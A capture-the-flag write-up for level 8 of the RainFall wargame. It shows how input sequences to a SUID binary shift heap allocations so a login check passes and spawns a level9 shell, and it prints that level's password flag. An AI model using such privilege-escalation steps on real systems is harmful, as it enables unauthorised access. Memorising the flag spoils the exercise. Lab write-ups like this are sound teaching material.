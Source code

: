 # Level 8

## Vulnerability

Idiocy

## Context

We find a binary with owner level9 and SUID.
```
level8@RainFall:~$ ls -l
-rwsr-s---+ 1 level9 users 6057 Mar  6  2016 level8
```
When run accepts input on stdin and prints 2 null values.
```
level8@RainFall:~$ ./level8
(nil), (nil)
wait... what?
(nil), (nil)
```

## Solution

Investigating with gdb, we find the main reads stdin with fgets() accepting commands.

It calls system("/bin/sh") after several conditional jumps.
```
level8@RainFall:~$ gdb -q level8
...
(gdb) disas main
...
   0x080485ae <+74>:	call   0x8048440 <fgets@plt>
...
   0x080486f5 <+401>:	call   0x8048480 <system@plt>
```
if we cat the binary we find some strings that look like commands
```
level8@RainFall:~$ cat level8
...
auth resetservicelogin/bin/shPassword:
```
Playing with these commands as input to ```level8``` we find the following:

* ```auth```    : calls ```strcpy()```, copies input following auth into global variable ```auth```.
* ```service``` : calls ```strdup()```, copies input following service into global variable ```service```.
* ```reset```   : calls ```free()```, resets global variable auth.
* ```login```   : If auth[32] is non-zero call ```system()```. Else ```fwrite()``` displays address of global variables ```auth``` and ```service```.

malloc() places each pointer successively on the heap, with some padding. In this case we see 16 bytes between pointers.

To make auth[32] non-zero we can attempt to place our ```service``` variable 32 bytes after ```auth``` on the heap.

Create the first pointer with command ```auth```, then a second calling ```service``` twice. We see ```service``` is now exactly 32 bytes after ```auth```.

So when we call login auth[32] is non-zero and we are given a new shell as user ```level9``` where we can ```cat``` the password.
```
level8@RainFall:~$ ./level8
(nil), (nil)
auth please
0x804a008, (nil)
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
### Alternative solution

Alternatively, create the ```auth``` pointer first, then a second calling ```service``` with any string at least 16 bytes long.
```
auth I mean...
0x804a008, (nil)
service0123456789abcdef
0x804a008, 0x804a018
login
$ whoami
level9
```

## Recreate Exploited Binary

As user ```level9```, in ```/tmp```, create and compile ```level8_source.c```
```
level9@RainFall:/tmp$ gcc level8_source.c -o level8_source
```
Edit permissions including suid, then move the binary to home directory.
```
level9@RainFall:/tmp$ chmod u+s level8_source; chmod +wx ~; mv level8_source ~
```
Exit back to user ```level8```, then run the source.
```
level9@RainFall:/tmp$ exit
exit
level8@RainFall:~$ /home/user/level9/level8_source
(nil), (nil)
auth please
0x804a008, (nil)
service0123456789abcdef
0x804a008, 0x804a018
login
$ whoami
level9
```
